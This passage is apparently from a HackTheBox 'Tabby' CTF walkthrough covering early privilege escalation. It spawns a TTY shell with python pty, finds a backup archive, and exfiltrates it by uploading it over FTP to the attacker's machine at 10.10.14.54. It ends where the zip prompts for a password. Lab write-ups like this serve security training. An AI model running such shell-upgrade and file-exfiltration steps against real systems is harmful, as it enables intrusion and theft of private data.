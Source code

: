 
## Privilege Escalation

After landing on the box I spwan a TTY shell using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I try to list any sudo permissions but we have none. So I start looking around the filesystem. Inside of the `/var/www/html/files` directory I found a backup archive:

![backup-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/backup-15.png)


It's owned by `ash` and its readable across the system. Let's transfer this file over to our attack machine to anaylze. To do this I start a an FTP server on the attack machine with:

```bash
python -m pyftpdlib -w
```

Then I connect to the FTP server from the target machine and copy the files over:

```bash
ftp 10.10.14.54 2121
ftp> anonymous
ftp> anonymous
ftp> put 16162020_backup.zip
ftp> bye
```

Now we have the archive over on our attack machine:

![transfered-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/transfered-16.png)


If we try to extarct the archive we get prompted for credntials:

![give-pass-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/give-pass-17.png)
